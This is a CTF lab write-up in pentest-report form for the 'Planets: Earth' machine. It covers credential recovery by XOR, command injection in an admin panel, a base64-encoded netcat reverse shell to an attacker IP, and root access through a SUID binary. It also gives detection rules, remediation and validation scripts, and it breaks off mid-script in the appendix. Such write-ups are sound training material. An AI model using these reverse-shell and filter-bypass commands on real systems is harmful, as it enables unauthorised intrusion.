

# CTF "The Planets: Earth (Extended)"

## Executive Summary

**Target System:** 192.168.131.130 (earth.local / terratest.earth.local)  
**Assessment Date:** August 2025  
**Assessment Type:** Penetration Testing (CTF Environment)  
**Pentester:** Iceyami
**Overall Risk Rating:** 🔴 **CRITICAL**  

### Key Findings

This assessment identified a complete compromise path through multiple critical vulnerabilities that allowed escalation from anonymous web access to root privileges. The attack chain exploited:

1. **Information Disclosure** - Exposed cryptographic keys enabling credential recovery
2. **Remote Code Execution** - Unsecured administrative interface with command injection
3. **Privilege Escalation** - Vulnerable SUID binary allowing root access

**Business Impact:** Complete system compromise with full administrative control, potential for data exfiltration, service disruption, and lateral movement to other network assets.

---

## Table of Contents

- [1. Technical Environment](#1-technical-environment)
- [2. Methodology](#2-methodology)
- [3. Attack Chain Analysis](#3-attack-chain-analysis)
- [4. Detailed Vulnerability Assessment](#4-detailed-vulnerability-assessment)
- [5. Risk Analysis](#5-risk-analysis)
- [6. Evidence Collection](#6-evidence-collection)
- [7. Indicators of Compromise](#7-indicators-of-compromise)
- [8. Remediation Plan](#8-remediation-plan)
- [9. Detection and Monitoring](#9-detection-and-monitoring)
- [10. Post-Remediation Verification](#10-post-remediation-verification)
- [11. Appendices](#11-appendices)

---

## 1. Technical Environment

### 1.1 Target Infrastructure

| Component | Details |
|-----------|---------|
| **IP Address** | 192.168.131.130 |
| **Hostnames** | earth.local, terratest.earth.local |
| **Operating System** | Linux (Fedora-based) |
| **Architecture** | x86_64 |

### 1.2 Network Services

```
PORT    STATE  SERVICE    VERSION
22/tcp  open   ssh        OpenSSH 8.6
80/tcp  open   http       Apache httpd 2.4.51 (Fedora)
443/tcp open   ssl/http   Apache httpd 2.4.51
```

**Key Observations:**
- TLS certificate contains internal SAN entries indicating development/test environment
- HTTP TRACE method enabled (information disclosure vector)
- Multiple virtual hosts configured

---

## 2. Methodology

### 2.1 Assessment Framework

This assessment followed the **OWASP Testing Guide** and **NIST SP 800-115** methodologies:

1. **Information Gathering** - Network discovery, service enumeration
2. **Vulnerability Assessment** - Automated and manual testing
3. **Exploitation** - Proof-of-concept attacks
4. **Post-Exploitation** - Privilege escalation, persistence analysis
5. **Reporting** - Documentation and remediation guidance

### 2.2 Tools Utilized

| Category | Tools |
|----------|-------|
| **Network Discovery** | Nmap, Netdiscover |
| **Web Assessment** | Gobuster, Burp Suite, CyberChef |
| **Exploitation** | Custom XOR decryption, Netcat |
| **Privilege Escalation** | LinPEAS, manual SUID enumeration |
| **Analysis** | Strings, ltrace, strace |

---

## 3. Attack Chain Analysis

### 3.1 Complete Attack Flow



### 3.2 Timeline of Compromise

| Step | Action | Impact |
|------|--------|--------|
| **T+0** | Network reconnaissance | Target identification |
| **T+5** | Service enumeration | Attack surface mapping |
| **T+10** | Web content discovery | Administrative interfaces found |
| **T+15** | Credential recovery via XOR | Authentication bypass achieved |
| **T+20** | Command injection | Remote code execution |
| **T+25** | Reverse shell | Interactive system access |
| **T+30** | SUID exploitation | Root privilege escalation |
| **T+35** | Flag extraction | Complete objective achieved |

---

## 4. Detailed Vulnerability Assessment

### 4.1 Critical Finding #1: Information Disclosure - Exposed Cryptographic Materials

**CVSS v3.1 Score:** 7.5 (HIGH)  
**Vector:** `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`

#### Description
The web application exposed cryptographic keys and encrypted messages through predictable file paths discovered via robots.txt disclosure.

#### Technical Details

**Discovery Process:**
```bash
# Directory enumeration revealed robots.txt
gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlists/dirb/common.txt -t 50

# robots.txt disclosed sensitive paths
curl -k https://terratest.earth.local/robots.txt
# Output: /testingnotes.txt

# Testing notes revealed encryption details
curl -k https://terratest.earth.local/testingnotes.txt
# Revealed: XOR encryption with testdata.txt as key
```

**Cryptographic Weakness:**
- XOR cipher with reused key
- Key material accessible via HTTP
- No access controls on sensitive files

#### Proof of Concept

**XOR Decryption Implementation:**
```python
#!/usr/bin/env python3
"""XOR Decryption Tool for CTF Earth Challenge"""

def xor_decrypt(ciphertext_file, key_file, output_file):
    """
    Decrypt XOR-encrypted content using provided key file
    """
    try:
        # Read key and ciphertext
        with open(key_file, 'rb') as kf:
            key = kf.read()
        
        with open(ciphertext_file, 'rb') as cf:
            ciphertext = cf.read()
        
        # XOR decryption
        plaintext = bytearray()
        for i, byte in enumerate(ciphertext):
            plaintext.append(byte ^ key[i % len(key)])
        
        # Write result
        with open(output_file, 'wb') as of:
            of.write(plaintext)
            
        print(f"Decryption complete: {output_file}")
        
    except Exception as e:
        print(f"Error during decryption: {e}")

# Usage
if __name__ == "__main__":
    xor_decrypt('encrypted_message.txt', 'testdata.txt', 'decrypted.txt')
```

**Recovered Credentials:**
```
Username: terra
Password: earthclimatechangebad4humans
```

### 4.2 Critical Finding #2: Remote Code Execution via Admin Panel

**CVSS v3.1 Score:** 9.8 (CRITICAL)  
**Vector:** `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`

#### Description
The administrative interface at `/admin` contained an unsecured command execution feature that allowed arbitrary system commands without input validation or access restrictions.

#### Technical Details

**Access Method:**
```bash
# Admin panel authentication
curl -X POST http://earth.local/admin/login \
  -d "username=terra&password=earthclimatechangebad4humans" \
  -c cookies.txt

# Command execution endpoint
curl -X POST http://earth.local/admin/execute \
  -b cookies.txt \
  -d "command=whoami"
```

**Identified Vulnerabilities:**
- No input sanitization
- Direct system command execution
- Insufficient access controls
- No command whitelisting

#### Exploitation

**Initial Command Execution:**
```bash
# System reconnaissance
whoami                    # Output: apache
id                       # Output: uid=48(apache) gid=48(apache)
uname -a                 # System information
cat /etc/passwd          # User enumeration
```

**Reverse Shell Establishment:**

Due to filtering mechanisms, direct reverse shell commands were blocked. The following Base64 encoding technique bypassed restrictions:

```bash
# On attacker machine
nc -lvnp 4444

# Generate Base64 payload
echo 'nc -e /bin/bash 192.168.131.128 4444' | base64
# Output: bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTMxLjEyOCA0NDQ0Cg==

# Execute via admin panel
echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTMxLjEyOCA0NDQ0Cg==' | base64 -d | bash
```

**Shell Upgrade:**
```bash
# Spawn TTY shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Set environment
export TERM=xterm
export SHELL=/bin/bash
```

### 4.3 Critical Finding #3: Privilege Escalation via SUID Binary

**CVSS v3.1 Score:** 9.8 (CRITICAL)  
**Vector:** `AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`

#### Description
A custom SUID binary `/usr/bin/reset_root` contained insecure logic that allowed unprivileged users to reset the root password by creating specific temporary files.

#### Technical Analysis

**SUID Discovery:**
```bash
# Comprehensive SUID enumeration
find / -perm -u=s -type f 2>/dev/null | head -20

# Specific binary analysis
ls -la /usr/bin/reset_root
# Output: -rwsr-xr-x 1 root root 16696 Aug 15 10:23 /usr/bin/reset_root

file /usr/bin/reset_root
# Output: ELF 64-bit LSB executable, dynamically linked
```

**Static Analysis:**
```bash
# Extract readable strings
strings /usr/bin/reset_root | grep -E "(tmp|dev|shm)"

# Library dependencies
ldd /usr/bin/reset_root

# Security features analysis
checksec /usr/bin/reset_root
```

**Dynamic Analysis:**
```bash
# System call tracing
strace -f -e trace=file /usr/bin/reset_root 2>&1 | grep -E "(open|access|stat)"

# Library call tracing
ltrace /usr/bin/reset_root
```

#### Exploitation Process

**Required File Creation:**
```bash
# Create expected temporary files
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5  
touch /tmp/kcM0Wewe

# Verify file creation
ls -la /dev/shm/kHgTFI5G /dev/shm/Zw7bV9U5 /tmp/kcM0Wewe
```

**Privilege Escalation:**
```bash
# Execute SUID binary
./usr/bin/reset_root

# The binary modifies /etc/shadow to set root password to 'Earth'
# Authenticate as root
su root
# Password: Earth

# Verify root access
whoami              # Output: root
id                  # Output: uid=0(root) gid=0(root)
```

**Root Flag Extraction:**
```bash
find / -name "*flag*" -type f 2>/dev/null
cat /var/earth_web/user_flag.txt
cat /root/root_flag.txt
```

---

## 5. Risk Analysis

### 5.1 Impact Assessment

| CIA Triad | Impact Level | Justification |
|-----------|-------------|---------------|
| **Confidentiality** | 🔴 **High** | Complete system access allows data exfiltration |
| **Integrity** | 🔴 **High** | Root access enables system modification |
| **Availability** | 🟡 **Medium** | Potential for service disruption or data destruction |

### 5.2 Business Risk Factors

**Immediate Risks:**
- Complete system compromise
- Potential lateral movement to other systems
- Data exfiltration capabilities
- Service disruption potential

**Long-term Risks:**
- Regulatory compliance violations
- Reputational damage
- Financial losses from incident response
- Customer trust erosion

### 5.3 Exploitability Assessment

| Factor | Rating | Notes |
|--------|--------|-------|
| **Attack Complexity** | Low | Well-documented techniques |
| **Required Skills** | Intermediate | Basic penetration testing knowledge |
| **Time to Exploit** | < 1 Hour | Rapid compromise possible |
| **Detection Difficulty** | Low | Limited logging and monitoring |

---

## 6. Evidence Collection

### 6.1 Forensic Procedures

**Evidence Preservation Protocol:**
```bash
#!/bin/bash
# Evidence Collection Script
# Usage: ./collect_evidence.sh

EVIDENCE_DIR="/tmp/evidence_$(date +%Y%m%d_%H%M%S)"
mkdir -p "$EVIDENCE_DIR"

echo "[+] Collecting system evidence..."

# System information
uname -a > "$EVIDENCE_DIR/system_info.txt"
date > "$EVIDENCE_DIR/collection_timestamp.txt"
whoami > "$EVIDENCE_DIR/collector_context.txt"

# Log files
cp /var/log/httpd/access_log "$EVIDENCE_DIR/" 2>/dev/null
cp /var/log/httpd/error_log "$EVIDENCE_DIR/" 2>/dev/null
cp /var/log/apache2/access.log "$EVIDENCE_DIR/" 2>/dev/null
cp /var/log/apache2/error.log "$EVIDENCE_DIR/" 2>/dev/null
cp /var/log/auth.log "$EVIDENCE_DIR/" 2>/dev/null
cp /var/log/secure "$EVIDENCE_DIR/" 2>/dev/null

# Binary analysis
cp /usr/bin/reset_root "$EVIDENCE_DIR/reset_root.bin"
sha256sum "$EVIDENCE_DIR/reset_root.bin" > "$EVIDENCE_DIR/reset_root.bin.sha256"
strings "$EVIDENCE_DIR/reset_root.bin" > "$EVIDENCE_DIR/reset_root.strings"
stat /usr/bin/reset_root > "$EVIDENCE_DIR/reset_root.stat"

# Process and network state
ps aux > "$EVIDENCE_DIR/processes.txt"
ss -tupan > "$EVIDENCE_DIR/network_connections.txt"
netstat -tupan > "$EVIDENCE_DIR/network_connections_legacy.txt" 2>/dev/null

# File system artifacts
ls -la /dev/shm/ > "$EVIDENCE_DIR/shm_contents.txt"
ls -la /tmp/ > "$EVIDENCE_DIR/tmp_contents.txt"

# Web artifacts
cp /var/earth_web/user_flag.txt "$EVIDENCE_DIR/" 2>/dev/null
cp /root/root_flag.txt "$EVIDENCE_DIR/" 2>/dev/null

# SUID/SGID files audit
find / -perm -4000 -type f -ls 2>/dev/null > "$EVIDENCE_DIR/suid_files.txt"
find / -perm -2000 -type f -ls 2>/dev/null > "$EVIDENCE_DIR/sgid_files.txt"

# Capabilities audit
getcap -r / 2>/dev/null > "$EVIDENCE_DIR/capabilities.txt"

# Archive evidence
tar czf "${EVIDENCE_DIR}.tar.gz" "$EVIDENCE_DIR"
sha256sum "${EVIDENCE_DIR}.tar.gz" > "${EVIDENCE_DIR}.tar.gz.sha256"

echo "[+] Evidence collection complete: ${EVIDENCE_DIR}.tar.gz"
echo "[+] SHA256: $(cat ${EVIDENCE_DIR}.tar.gz.sha256)"
```

### 6.2 Chain of Custody

| Item | Hash (SHA256) | Timestamp | Collector |
|------|---------------|-----------|-----------|
| reset_root.bin | `[calculated during collection]` | `[automated timestamp]` | Security Analyst |
| system_logs.tar.gz | `[calculated during collection]` | `[automated timestamp]` | Security Analyst |
| web_artifacts.tar.gz | `[calculated during collection]` | `[automated timestamp]` | Security Analyst |

---

## 7. Indicators of Compromise (IoC)

### 7.1 Network Indicators

```yaml
Network_IOCs:
  attacker_ip: "192.168.131.128"  # Example from lab environment
  suspicious_connections:
    - src_port: 4444
      protocol: TCP
      description: "Reverse shell connection"
  
  http_indicators:
    - uri: "/admin"
      method: "POST"
      description: "Administrative interface access"
    - parameter: "command"
      content: "base64_encoded_payloads"
      description: "Command injection attempts"
```

### 7.2 Host-based Indicators

```yaml
Host_IOCs:
  files:
    - path: "/dev/shm/kHgTFI5G"
      description: "SUID exploitation artifact"
    - path: "/dev/shm/Zw7bV9U5"
      description: "SUID exploitation artifact"  
    - path: "/tmp/kcM0Wewe"
      description: "SUID exploitation artifact"
  
  processes:
    - name: "nc"
      parent: "apache"
      description: "Reverse shell process"
    - name: "bash"
      parent: "nc"
      description: "Interactive shell"
      
  authentication:
    - user: "terra"
      source: "web_panel"
      description: "Compromised account usage"
    - user: "root" 
      source: "su_command"
      description: "Privilege escalation"
```

### 7.3 Web Application Indicators

```bash
# Apache/NGINX log analysis patterns
grep -E "bmMgLWUgL2Jpbi9iYXNo" /var/log/httpd/access_log
grep -E "/admin.*POST" /var/log/httpd/access_log | grep -v "normal_admin_ip"
grep -E "base64.*bash" /var/log/httpd/access_log
```

---

## 8. Remediation Plan

### 8.1 Immediate Actions (0-24 Hours)

#### Priority 1: Containment
```bash
# Isolate the compromised system
iptables -A INPUT -s 0.0.0.0/0 -j DROP
iptables -A OUTPUT -d 0.0.0.0/0 -j DROP
iptables -I INPUT -s <trusted_management_ip> -j ACCEPT
iptables -I OUTPUT -d <trusted_management_ip> -j ACCEPT

# Disable vulnerable services
systemctl stop httpd
systemctl disable httpd
```

#### Priority 2: Eliminate Attack Vectors
```bash
# Remove SUID bit from vulnerable binary
chmod u-s /usr/bin/reset_root
mv /usr/bin/reset_root /root/quarantine/

# Clean up exploitation artifacts
rm -f /dev/shm/kHgTFI5G /dev/shm/Zw7bV9U5 /tmp/kcM0Wewe

# Change all compromised credentials
passwd root
userdel terra  # If not needed for legitimate purposes
```

#### Priority 3: Evidence Preservation
- Execute evidence collection script
- Create system image/snapshot
- Document all actions taken

### 8.2 Short-term Actions (1-7 Days)

#### Security Hardening
```bash
# Apache security configuration
cat > /etc/httpd/conf.d/security.conf << 'EOF'
# Disable dangerous HTTP methods
<LimitExcept GET POST HEAD>
    Require all denied
</LimitExcept>

# Hide server information
ServerTokens Prod
ServerSignature Off

# Disable TRACE method
TraceEnable off

# Security headers
Header always set X-Content-Type-Options nosniff
Header always set X-Frame-Options DENY
Header always set X-XSS-Protection "1; mode=block"
Header always set Strict-Transport-Security "max-age=31536000; includeSubDomains"
Header always set Content-Security-Policy "default-src 'self'"
EOF
```

#### SUID Audit and Cleanup
```bash
# Comprehensive SUID audit
find / -perm -4000 -type f -ls 2>/dev/null > /tmp/current_suid_list.txt

# Review each SUID binary
while read -r line; do
    file_path=$(echo "$line" | awk '{print $NF}')
    echo "Reviewing: $file_path"
    # Manual review required for each binary
done < /tmp/current_suid_list.txt

# Remove unnecessary SUID binaries
# (This requires careful analysis of each binary's purpose)
```

### 8.3 Long-term Actions (1-4 Weeks)

#### Application Security Improvements
```python
# Example: Secure command execution wrapper
import subprocess
import shlex
from typing import List, Dict

class SecureCommandExecutor:
    """Secure wrapper for system command execution"""
    
    ALLOWED_COMMANDS = {
        'ls': ['-la', '-l', '-a'],
        'ps': ['-aux', '-ef'],
        'cat': [],  # Only allow reading specific files
        'grep': ['-r', '-i', '-n']
    }
    
    def __init__(self):
        self.audit_log = []
    
    def execute_command(self, command: str, user: str) -> Dict:
        """
        Execute command with strict validation
        """
        try:
            # Parse and validate command
            cmd_parts = shlex.split(command)
            cmd_name = cmd_parts[0]
            
            # Command whitelist check
            if cmd_name not in self.ALLOWED_COMMANDS:
                raise SecurityError(f"Command '{cmd_name}' not allowed")
            
            # Parameter validation
            self._validate_parameters(cmd_name, cmd_parts[1:])
            
            # Log the command
            self._audit_command(command, user)
            
            # Execute with timeout and resource limits
            result = subprocess.run(
                cmd_parts,
                capture_output=True,
                text=True,
                timeout=30,
                check=False
            )
            
            return {
                'stdout': result.stdout,
                'stderr': result.stderr,
                'returncode': result.returncode
            }
            
        except Exception as e:
            self._audit_error(command, user, str(e))
            raise
    
    def _validate_parameters(self, cmd_name: str, params: List[str]):
        """Validate command parameters against whitelist"""
        allowed_params = self.ALLOWED_COMMANDS[cmd_name]
        for param in params:
            if param.startswith('-') and param not in allowed_params:
                raise SecurityError(f"Parameter '{param}' not allowed for '{cmd_name}'")
```

#### Secrets Management Implementation
```bash
# Example HashiCorp Vault integration
vault auth -method=userpass username=webapp password=<secure_password>
vault kv put secret/webapp/db username=dbuser password=<secure_db_password>

# Application configuration
cat > /etc/webapp/config.yaml << 'EOF'
vault:
  address: "https://vault.internal.company.com:8200"
  auth_method: "userpass"
  secrets_path: "secret/webapp"

database:
  # No hardcoded credentials
  connection_string: "vault://secret/webapp/db"
EOF
```

---

## 9. Detection and Monitoring

### 9.1 SIEM Rules

#### Suricata Rules
```bash
# Rule for Base64 encoded reverse shell detection
alert http any any -> any any (
    msg:"WEB-ATTACK Base64 encoded reverse shell";
    content:"bmMgLWUgL2Jpbi9iYXNo";
    http_client_body;
    nocase;
    sid:1000001;
    rev:1;
    classtype:web-application-attack;
    reference:url,github.com/swisskyrepo/PayloadsAllTheThings;
)

# Rule for SUID binary execution monitoring
alert tcp any any -> any any (
    msg:"SYSTEM Suspicious SUID binary execution";
    content:"reset_root";
    nocase;
    sid:1000002;
    rev:1;
    classtype:system-call-detect;
)
```

#### Elastic Stack (ELK) Queries
```json
{
  "query": {
    "bool": {
      "should": [
        {
          "match": {
            "http.request.body": "bmMgLWUgL2Jpbi9iYXNo"
          }
        },
        {
          "wildcard": {
            "process.command_line": "*reset_root*"
          }
        },
        {
          "terms": {
            "file.path": [
              "/dev/shm/kHgTFI5G",
              "/dev/shm/Zw7bV9U5", 
              "/tmp/kcM0Wewe"
            ]
          }
        }
      ]
    }
  }
}
```

#### Splunk Searches
```bash
# Web attack detection
index=web_logs sourcetype=apache_access 
| search (uri_query="*bmMgLWUgL2Jpbi9iYXNo*" OR method=POST AND uri="/admin*")
| stats count by src_ip, uri, _time
| where count > 5

# System compromise indicators  
index=linux_logs sourcetype=syslog
| search ("reset_root" OR "SUID" OR "privilege escalation")
| eval risk_score=case(
    searchmatch("reset_root"), 10,
    searchmatch("SUID"), 8,
    1==1, 5
)
| where risk_score >= 8
```

### 9.2 Auditd Configuration

```bash
# /etc/audit/rules.d/suid-monitoring.rules
# Monitor SUID binary executions
-a always,exit -F arch=b64 -S execve -F path=/usr/bin/reset_root -k suid_exec
-a always,exit -F arch=b32 -S execve -F path=/usr/bin/reset_root -k suid_exec

# Monitor file creation in sensitive directories
-w /dev/shm/ -p wa -k sensitive_temp_files
-w /tmp/ -p wa -k temp_file_creation

# Monitor privilege escalation attempts
-w /etc/passwd -p wa -k user_modification
-w /etc/shadow -p wa -k password_modification
-w /etc/sudoers -p wa -k sudo_modification

# Query audit logs
ausearch -k suid_exec
ausearch -k sensitive_temp_files
```

### 9.3 Custom Monitoring Scripts

```bash
#!/bin/bash
# SUID Monitoring Script
# /opt/security/scripts/suid_monitor.sh

BASELINE_FILE="/opt/security/baselines/suid_baseline.txt"
CURRENT_FILE="/tmp/current_suid_$(date +%Y%m%d_%H%M%S).txt"
ALERT_WEBHOOK="https://alerts.company.com/webhook"

# Generate current SUID list
find / -perm -4000 -type f -ls 2>/dev/null > "$CURRENT_FILE"

# Compare with baseline
if [ -f "$BASELINE_FILE" ]; then
    DIFF_OUTPUT=$(diff "$BASELINE_FILE" "$CURRENT_FILE")
    
    if [ -n "$DIFF_OUTPUT" ]; then
        # SUID changes detected
        ALERT_MESSAGE="SECURITY ALERT: SUID binary changes detected on $(hostname)"
        
        # Send alert
        curl -X POST "$ALERT_WEBHOOK" \
            -H "Content-Type: application/json" \
            -d "{
                \"alert\": \"$ALERT_MESSAGE\",
                \"hostname\": \"$(hostname)\",
                \"timestamp\": \"$(date -u +%Y-%m-%dT%H:%M:%SZ)\",
                \"details\": \"$DIFF_OUTPUT\"
            }"
        
        # Log locally
        echo "$(date): SUID changes detected" >> /var/log/suid_monitor.log
        echo "$DIFF_OUTPUT" >> /var/log/suid_monitor.log
    fi
fi

# Update baseline if this is initial run
if [ ! -f "$BASELINE_FILE" ]; then
    cp "$CURRENT_FILE" "$BASELINE_FILE"
fi

# Cleanup
rm -f "$CURRENT_FILE"
```

---

## 10. Post-Remediation Verification

### 10.1 Security Validation Checklist

```bash
#!/bin/bash
# Post-Remediation Validation Script

echo "=== Security Validation Checklist ==="

# 1. Verify SUID binary removal
echo "[1/8] Checking SUID binary status..."
if [ -f "/usr/bin/reset_root" ]; then
    echo "❌ FAIL: reset_root binary still exists"
    exit 1
else
    echo "✅ PASS: reset_root binary removed"
fi

# 2. Verify admin panel access restrictions
echo "[2/8] Testing admin panel accessibility..."
HTTP_CODE=$(curl -s -o /dev/null -w "%{http_code}" http://earth.local/admin --connect-timeout 5)
if [ "$HTTP_CODE" = "000" ] || [ "$HTTP_CODE" = "403" ]; then
    echo "✅ PASS: Admin panel properly restricted"
else
    echo "❌ FAIL: Admin panel still accessible (HTTP $HTTP_CODE)"
fi

# 3. Verify credential rotation
echo "[3/8] Checking credential status..."
if ! id terra 2>/dev/null; then
    echo "✅ PASS: Compromised user account removed"
else
    echo "❌ FAIL: Compromised user account still exists"
fi

# 4. Check for exploitation artifacts
echo "[4/8] Scanning for exploitation artifacts..."
ARTIFACTS_FOUND=0
for artifact in "/dev/shm/kHgTFI5G" "/dev/shm/Zw7bV9U5" "/tmp/kcM0Wewe"; do
    if [ -e "$artifact" ]; then
        echo "❌ FAIL: Exploitation artifact found: $artifact"
        ((ARTIFACTS_FOUND++))
    fi
done

if [ $ARTIFACTS_FOUND -eq 0 ]; then
    echo "✅ PASS: No exploitation artifacts found"
fi

# 5. Verify secure configuration
echo "[5/8] Checking Apache security configuration..."
if httpd -t 2>/dev/null && grep -q "TraceEnable off" /etc/httpd/conf.d/security.conf; then
    echo "✅ PASS: Apache security configuration applied"
else
    echo "❌ FAIL: Apache security configuration missing"
fi

# 6. Verify log monitoring
echo "[6/8] Checking audit configuration..."
if auditctl -l | grep -q "reset_root"; then
    echo "✅ PASS: SUID monitoring rules active"
else
    echo "❌ FAIL: SUID monitoring rules missing"
fi

# 7. Test command injection prevention
echo "[7/8] Testing command injection protection..."
INJECTION_TEST=$(curl -s -X POST http://earth.local/admin/execute \
    -d "command=whoami" \
    --connect-timeout 5 2>/dev/null || echo "blocked")

if [ "$INJECTION_TEST" = "blocked" ]; then
    echo "✅ PASS: Command injection properly blocked"
else
    echo "❌ FAIL: Command injection still possible"
fi

# 8. Verify secrets removal
echo "[8/8] Checking for exposed secrets..."
SECRET_FILES=0
for file in "/var/www/html/testdata.txt" "/var/www/html/testingnotes.txt"; do
    if [ -e "$file" ]; then
        echo "❌ FAIL: Secret file still exists: $file"
        ((SECRET_FILES++))
    fi
done

if [ $SECRET_FILES -eq 0 ]; then
    echo "✅ PASS: No secret files found"
fi

echo "=== Validation Complete ==="
```

### 10.2 Penetration Testing Validation

```bash
#!/bin/bash
# Post-Remediation Penetration Test
# This script validates that the vulnerabilities have been properly fixed

echo "=== Post-Remediation Penetration Test ==="

TARGET_IP="192.168.131.130"
ATTACK_IP=$(hostname -I | awk '{print $1}')

# Test 1: Information Disclosure
echo "[TEST 1] Information Disclosure Vulnerability..."
curl -s -k "https://terratest.earth.local/testdata.txt" | head -1
if curl -s -k "https://terratest.earth.local/testdata.txt" 2>/dev/null | grep -q "error\|not found\|forbidden"; then
    echo "✅ PASS: Secret files no longer accessible"
else
    echo "❌ FAIL: Secret files still accessible"
fi

# Test 2: Admin Panel Access Control
echo "[TEST 2] Admin Panel Access Control..."
HTTP_RESPONSE=$(curl -s -w "%{http_code}" -X POST http://earth.local/admin \
    -d "username=terra&password=earthclimatechangebad4humans" \
    --connect-timeout 10 2>/dev/null || echo "000")

if [ "$HTTP_RESPONSE" = "000" ] || [ "$HTTP_RESPONSE" = "403" ] || [ "$HTTP_RESPONSE" = "404" ]; then
    echo "✅ PASS: Admin panel properly secured"
else
    echo "❌ FAIL: Admin panel still accessible"
fi

# Test 3: Command Injection Prevention
echo "[TEST 3] Command Injection Prevention..."
# This test should fail if remediation was successful
COMMAND_TEST=$(timeout 10 curl -s -X POST http://earth.local/admin/execute \
    -d "command=id" 2>/dev/null || echo "blocked")

if [ "$COMMAND_TEST" = "blocked" ] || [ -z "$COMMAND_TEST" ]; then
    echo "✅ PASS: Command injection blocked"
else
    echo "❌ FAIL: Command injection still possible"
fi

# Test 4: SUID Binary Exploitation
echo "[TEST 4] SUID Binary Exploitation..."
if ssh -o ConnectTimeout=5 -o StrictHostKeyChecking=no test@$TARGET_IP "ls -la /usr/bin/reset_root" 2>/dev/null; then
    echo "❌ FAIL: SUID binary still present"
else
    echo "✅ PASS: SUID binary removed/secured"
fi

echo "=== Penetration Test Complete ==="
```

---

## 11. Appendices

### Appendix A: Complete Attack Command Reference

```bash
# ========================================
# PHASE 1: RECONNAISSANCE & ENUMERATION
# ========================================

# Network discovery
ip addr show
netdiscover -i eth0 -r 192.168.131.0/24

# Port scanning and service enumeration
nmap -sS -sV -sC -O -T4 -p- 192.168.131.130 -oA nmap_full_scan
nmap --script vuln 192.168.131.130 -oN nmap_vuln_scan.txt

# DNS and hostname resolution
echo "192.168.131.130 earth.local terratest.earth.local" >> /etc/hosts
dig @192.168.131.130 earth.local
dig @192.168.131.130 terratest.earth.local

# SSL/TLS certificate analysis
openssl s_client -connect earth.local:443 -servername earth.local < /dev/null
sslscan earth.local:443

# ========================================
# PHASE 2: WEB APPLICATION ENUMERATION
# ========================================

# Directory and file discovery
gobuster dir -u http://earth.local/ -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,html,txt,js
gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,html,txt,js

# Advanced web enumeration
dirb http://earth.local/ /usr/share/wordlists/dirb/common.txt
nikto -h http://earth.local/
whatweb http://earth.local/

# Virtual host discovery
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt \
     -u http://192.168.131.130/ -H "Host: FUZZ.earth.local" -mc 200

# Web technology fingerprinting
wafw00f http://earth.local/
wapiti -u http://earth.local/ --scope domain

# ========================================
# PHASE 3: INFORMATION DISCLOSURE EXPLOITATION
# ========================================

# Robots.txt analysis
curl -s http://earth.local/robots.txt
curl -s -k https://terratest.earth.local/robots.txt

# Retrieve disclosed files
wget -r -np -nH --cut-dirs=1 https://terratest.earth.local/testingnotes.txt
wget -r -np -nH --cut-dirs=1 https://terratest.earth.local/testdata.txt

# Download encrypted messages (if discovered)
find . -name "*.txt" -exec echo "=== {} ===" \; -exec cat {} \; -exec echo \;

# XOR decryption implementation
cat > xor_decrypt.py << 'PYTHON_SCRIPT'
#!/usr/bin/env python3
"""
Advanced XOR Decryption Tool for CTF Earth Challenge
Supports multiple key formats and analysis modes
"""

import sys
import argparse
from pathlib import Path

def analyze_xor_key(key_data):
    """Analyze XOR key characteristics"""
    print(f"Key length: {len(key_data)} bytes")
    print(f"Key entropy: {calculate_entropy(key_data):.2f}")
    print(f"Key preview: {key_data[:50]}..." if len(key_data) > 50 else f"Key content: {key_data}")

def calculate_entropy(data):
    """Calculate Shannon entropy of data"""
    from collections import Counter
    import math
    
    if not data:
        return 0
    
    counter = Counter(data)
    length = len(data)
    entropy = -sum((count/length) * math.log2(count/length) for count in counter.values())
    return entropy

def xor_decrypt_advanced(ciphertext_file, key_file, output_file, analysis=False):
    """Advanced XOR decryption with analysis capabilities"""
    try:
        # Read files
        with open(key_file, 'rb') as kf:
            key = kf.read()
        
        with open(ciphertext_file, 'rb') as cf:
            ciphertext = cf.read()
        
        if analysis:
            print("=== KEY ANALYSIS ===")
            analyze_xor_key(key)
            print("\n=== CIPHERTEXT ANALYSIS ===")
            print(f"Ciphertext length: {len(ciphertext)} bytes")
            print(f"Ciphertext entropy: {calculate_entropy(ciphertext):.2f}")
        
        # XOR decryption with key cycling
        plaintext = bytearray()
        for i, byte in enumerate(ciphertext):
            decrypted_byte = byte ^ key[i % len(key)]
            plaintext.append(decrypted_byte)
        
        # Write result
        with open(output_file, 'wb') as of:
            of.write(plaintext)
        
        # Try to decode as text and display preview
        try:
            text_result = plaintext.decode('utf-8', errors='ignore')
            print(f"\n=== DECRYPTION RESULT ===")
            print(f"Output written to: {output_file}")
            print(f"Result preview:\n{text_result[:200]}...")
            
            # Look for credential patterns
            import re
            cred_patterns = [
                r'username[:\s=]+(\w+)',
                r'password[:\s=]+([^\s\n]+)',
                r'user[:\s=]+(\w+)',
                r'pass[:\s=]+([^\s\n]+)',
                r'login[:\s=]+(\w+)',
                r'(\w+)[:\s]+([^\s\n]+)'  # Generic key:value pattern
            ]
            
            print("\n=== CREDENTIAL ANALYSIS ===")
            for pattern in cred_patterns:
                matches = re.finditer(pattern, text_result, re.IGNORECASE)
                for match in matches:
                    if match.groups():
                        if len(match.groups()) == 2:
                            print(f"Potential credential: {match.group(1)} = {match.group(2)}")
                        else:
                            print(f"Potential credential field: {match.group(1)}")
        
